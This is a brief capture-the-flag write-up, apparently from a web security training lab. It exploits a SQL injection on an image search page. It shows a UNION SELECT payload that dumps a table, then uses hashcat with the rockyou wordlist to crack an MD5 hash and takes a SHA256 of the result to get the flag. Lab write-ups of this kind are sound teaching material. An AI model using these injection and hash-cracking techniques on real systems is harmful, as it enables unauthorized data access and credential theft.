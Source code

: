 # SQL Injection Search Images

This writeup is tiny, because it's the same exploit as SQL_Injection_Members..
We just have to explore another table and schema of the database.

```
1 UNION SELECT title,comment FROM Member_images.list_images
```

With _title_ and _comment_ columns in _Member_images_ schema from _list_images_ table we got,
```
ID: 1 UNION SELECT title,comment FROM Member_images.list_images
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

In kali linux, as the comment tell us, we can decode this MD5 hash.

```
echo -n 1928e8083cf461a51303633093573c46 > images.hash
hashcat -m0 -a0 images.hash /usr/share/wordlists/rockyou.txt --force
```

It works and we found "albatroz".
```
1928e8083cf461a51303633093573c46:albatroz                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We can encrypt it in SHA256 with CyberChef and we got the flag!

https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=YWxiYXRyb3o

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
